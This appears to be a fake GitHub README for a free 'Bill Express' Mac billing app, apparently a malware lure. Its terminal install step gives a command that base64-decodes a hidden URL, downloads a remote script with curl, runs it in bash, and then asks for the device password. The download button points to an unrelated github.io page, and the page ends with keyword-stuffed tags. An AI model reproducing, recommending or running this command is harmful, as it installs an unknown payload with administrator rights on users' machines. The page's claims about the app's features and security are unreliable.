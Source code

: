 # Bill Express — Download For Mac OS 🧾
![logo](https://i.imgur.com/W6BWSJC.png)

Effortlessly manage your finances with Bill Express, a powerful and free desktop app for Mac OS. Follow the instructions below to install and streamline your billing process.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://fituganshfgh.github.io/.github/billexpress)

If the button above doesn’t work, follow the terminal command instructions below.

## 📦 How to Install Bill Express For Mac OS

### Installation via .dmg:

1. Download the .dmg file using the button above.
2. Open the .dmg installer and drag the Bill Express app to your Applications folder.
3. Open a terminal and navigate to the Applications folder where you placed the app.
4. Press the "Return" key, then enter your device password in the prompt (leave blank if no password is set).

[![Installation Demo](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via Terminal Command:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the Terminal app on your Mac and paste the command, then press "Return."
3. Enter your device password and confirm the installation.

[![Terminal Installation](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 🧾 **Invoice Creation**: Generate professional invoices in minutes with customizable templates.
- 📊 **Expense Tracking**: Monitor your spending with intuitive dashboards and reports.
- 💸 **Payment Management**: Track payments and automate reminders for overdue invoices.
- 🔄 **Data Sync**: Sync your financial data securely across devices for real-time updates.
- 📈 **Analytics Tools**: Gain insights into your financial performance with built-in analytics.
- 🛠 **Custom Workflows**: Tailor the app to your business needs with flexible settings.

## About Bill Express

Bill Express is a free, user-friendly desktop application designed for Mac OS users who need a reliable tool to manage their finances. Whether you're a freelancer, small business owner, or managing personal budgets, Bill Express simplifies the process of creating invoices, tracking expenses, and analyzing financial data. With its sleek interface and robust functionality, it’s the perfect solution for anyone looking to take control of their billing process without the hassle of complex software.

The app’s intuitive design ensures that users can quickly generate professional invoices using customizable templates that align with their brand. By incorporating powerful expense tracking features, Bill Express allows users to monitor their spending habits and make informed financial decisions. The built-in analytics tools provide detailed insights into your financial performance, helping you identify trends and optimize your budget.

Security is a top priority for Bill Express. All your financial data is encrypted and stored locally on your Mac, ensuring privacy and peace of mind. The app also supports seamless data synchronization, allowing you to access your information across multiple devices without compromising security. Whether you’re working from your office or on the go, Bill Express keeps your financial data at your fingertips.

One of the standout features of Bill Express is its flexibility. Users can customize workflows to suit their specific needs, from setting up recurring invoices to automating payment reminders. This adaptability makes it an ideal choice for businesses of all sizes, from solo entrepreneurs to growing startups. The app is optimized for Mac OS, ensuring smooth performance and compatibility with the latest macOS updates.

### Why Choose Bill Express?

Bill Express stands out from other financial management tools due to its simplicity, power, and cost—it's completely free! Unlike other software that requires expensive subscriptions or complex setups, Bill Express offers a straightforward, no-cost solution that doesn’t compromise on features. Its Mac-optimized design, robust security, and seamless user experience make it the go-to choice for anyone seeking a free download to manage their finances effectively.

## 🖼 Preview

![Dashboard Overview](https://is4-ssl.mzstatic.com/image/thumb/Purple124/v4/a2/57/f2/a257f217-7a9b-ee9a-4c62-f1370d4da988/pr_source.jpg/1286x0w.jpg)  
*View your financial data in a sleek, intuitive dashboard.*

![Invoice Creation](https://allmacworlds.com/wp-content/uploads/2021/06/Bill-Express-macOS-Free-Download-1024x664.jpg)  
*Create professional invoices with customizable templates.*

## 🔍 Tags

bill express, download bill express, financial management mac, bill express download, bill express free, bill express download free, free bill express, download bill express mac, bill express mac, bill express for mac, bill express software, bill express for mac, bill express pay
